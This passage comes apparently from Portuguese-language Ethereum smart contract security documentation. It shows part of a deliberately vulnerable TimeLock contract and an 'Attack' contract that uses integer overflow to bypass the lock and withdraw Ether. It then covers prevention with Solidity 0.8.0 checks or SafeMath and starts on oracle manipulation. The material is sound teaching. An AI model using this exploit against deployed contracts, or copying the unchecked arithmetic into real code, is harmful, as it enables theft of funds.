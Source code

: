 ```
        require(block.timestamp > lockTime[msg.sender], "Lock time not expired");

        uint amount = balances[msg.sender];
        balances[msg.sender] = 0;

        (bool sent, ) = msg.sender.call{value: amount}("");
        require(sent, "Failed to send Ether");
    }
}

contract Attack {
    TimeLock timeLock;

    constructor(TimeLock _timeLock) {
        timeLock = TimeLock(_timeLock);
    }

    fallback() external payable {}

    function attack() public payable {
        timeLock.deposit{value: msg.value}();
        /*
        if t = current lock time then we need to find x such that
        x + t = 2**256 = 0
        so x = -t
        2**256 = type(uint).max + 1
        so x = type(uint).max + 1 - t
        */
        timeLock.increaseLockTime(
            type(uint).max + 1 - timeLock.lockTime(address(this))
        );
        timeLock.withdraw();
    }
}
```

##### Como evitar overflows e underflows de números inteiros

A partir da versão 0.8.0, o compilador Solidity rejeita código que resulta em underflows e overflows de números inteiros. No entanto, contratos compilados com uma versão inferior do compilador devem ou realizar verificações sobre funções que envolvem operações aritméticas ou usar uma biblioteca (e.., [SafeMath](https://docs.openzeppelin.com/contracts/2.x/api/math)) que verifica se há underflow/overflow (extravasamentos negativos/extravasamentos).

#### Manipulação de oráculos {#oracle-manipulation}

Os [Oráculos](/developers/docs/oracles/) fornecem informações off-chain (fora da blockchain) e as enviam on-chain (dentro da blockchain) para uso em contratos inteligentes. Com oráculos, você pode conceber contratos inteligentes que interoperam com sistemas off-chain, como mercados de capitais, expandindo muito sua aplicação.
